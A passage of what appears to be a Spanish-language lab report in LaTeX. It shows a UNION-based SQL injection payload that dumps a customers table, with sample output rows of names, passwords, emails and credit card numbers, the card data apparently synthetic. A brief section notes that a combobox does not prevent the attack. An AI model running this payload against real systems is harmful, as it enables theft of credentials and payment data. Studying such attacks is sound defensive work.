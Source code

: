 \documentclass{article}
\begin{document}
Por último, se utiliza esto para imprimir la lista de todos los clientes con todos sus datos usando la siquiente entrada:

\begin{lstlisting}
a' union select address2 || ' ' || creditcardexpiration || ' ' || address1 || ' ' || cmin || ' ' || country || ' ' || age || ' ' || customerid || ' ' || xmin || ' ' || city || ' ' || password || ' ' || tableoid || ' ' || ctid || ' ' || credit || ' ' || state || ' ' || zip || ' ' || phone || ' ' || cmax || ' ' || region || ' ' || lastname || ' ' || email || ' ' || creditcard || ' ' || creditcardtype || ' ' || firstname || ' ' || username || ' ' || gender || ' ' || xmax from customers where '1'='1
\end{lstlisting}

Lo que resulta en lo siguiente:
\begin{lstlisting}
  aachen cobain 201310 fish faggot 141 0 UK 41 8297 45422 rote brute 20692 (76,8) 21876 hustle 17898 +31 292723366 0 billet marc char.marc@jmail.com 4215223247965149 VISA char koch M 0
  abacus danial 201401 babar ritual 224 0 Hong Kong 30 2565 45422 decree russia 20692 (170,18) 54584 beware 53132 +9 708173334 0 chou debark landis.debark@kran.com 4851574696347234 Mastercard landis souths2565 M 0
  abacus former 201206 gilead votary 270 0 Morocco 35 7814 45422 lessen mort 20692 (255,36) 49677 lorene 46651 +32 848738180 0 aileen hecuba crick.hecuba@potmail.com 4515032501163616 Mastercard crick bow7814 M 0
  abacus toasty 201204 toad ahab 66 0 Algeria 53 9796 45422 azania dix 20692 (287,26) 59212 veto 24135 +15 904018666 0 marsh ieee vetoes.ieee@kran.com 4380476712419911 American vetoes unbred9796 M 0
  abaft kathie 201506 alvaro crunch 74 0 Yugoslavia 30 5165 45422 privy post 20692 (47,30) 21635 alarm 42222 +50 428443915 0 stem iran steve.iran@jmail.com 4083182254722984 American steve eula M 0
  abase yet 201202 amity sallow 269 0 Luxembourg 52 11425 45422 aiken coerce 20692 (314,16) 17808 wisdom 38695 +13 866839246 0 kalb punk nit.punk@kran.com 4972076376273655 Mastercard nit shoal11425 F 0
[...]
\end{lstlisting}
{\footnotesize Salida completa en \texttt{customers.html}}

\subsubsection{Solución y mejoras}

Una combobox puede ser una solución aceptable para evitar al menos que un usuario ataque usando simplemente un navegador la página web, sin embargo, no sigue siendo una solución segura, pues herramientas como \texttt{curl} permiten fácilmente construir peticiones http de cualquier tipo con cualquier valor en los campos enviados, luego siguiendo dejando abierta la posibilidad de ataque mediante inyección de código.
\end{document}
